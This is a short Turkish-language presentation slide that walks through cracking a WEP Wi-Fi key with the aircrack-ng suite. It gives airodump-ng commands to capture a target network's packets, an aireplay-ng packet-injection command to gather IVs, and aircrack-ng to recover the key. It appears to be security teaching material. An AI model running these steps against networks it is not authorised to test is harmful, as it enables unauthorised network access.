

“airodump-ng wlan0" komutu ile belirli ağları ve paketleri görüntüleriz. Etraftaki kablosuz ağları ve paketleri gösterir.

“airodump-ng --bssid [BSSID] -c [Kanal] -w output wlan0" sadece hedef ağı ve paketlerini kaydeder.
        BSSID: Hedef moden/MAC adresi
        Kanal: Ağın yayın yaptığı kanal
        -w output: Paketleri bir dosyaya kaydeder.

“aireplay-ng -3 -b [BSSID] -h [Saldırgan MAC] wlan0" komutu ile ağda daha fazla trafik oluşturmak için paket enjekte ederiz böylece daha fazla IV toplarız ki şifre kırma işlemi daha verimli olsun.

“aircrack-ng output.cap” son olarak bu komut ile toplanan IV'ler analiz edilir ve WEP anahtarı bulmaya çalışılır. Başarılı olursa eğer şifre ekrana yazdırılır.